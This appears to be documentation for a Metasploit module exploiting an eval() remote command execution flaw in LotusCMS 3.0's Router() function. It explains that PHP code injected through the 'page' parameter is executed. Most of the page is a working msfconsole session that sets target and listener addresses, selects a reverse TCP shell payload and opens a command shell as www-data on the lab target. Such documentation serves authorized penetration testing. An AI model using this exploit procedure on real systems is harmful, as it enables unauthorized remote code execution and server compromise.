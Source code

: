 **LotusCMS 3.0 eval() Remote Command Execution**

> This module exploits a vulnerability found in Lotus CMS 3.0's Router() function. This is done by embedding PHP code in the 'page' parameter, 
> which will be passed to a eval call, therefore allowing remote code execution. The module can either automatically pick up a 'page' parameter 
> from the default page, or manually specify one in the URI option. To use the automatic method, please supply the URI with just a directory path, 
> for example: "/lcms/". To manually configure one, you may do: "/lcms/somepath/index.php?page=index"

``` plain
msf > use exploit/multi/http/lcms_php_exec
msf exploit(lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        Use a proxy chain
   RHOST                     yes       The target address
   RPORT    80               yes       The target port
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf exploit(lcms_php_exec) > set RHOST 192.168.127.128
RHOST => 192.168.127.128
msf exploit(lcms_php_exec) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf exploit(lcms_php_exec) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(lcms_php_exec) > set URI /
URI => /
msf exploit(lcms_php_exec) > exploit

[*] Started reverse handler on 192.168.127.159:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 1 opened (192.168.127.159:4444 -> 192.168.127.128:40623) at 2014-06-22 00:37:23 +0300
whoami

www-data
```
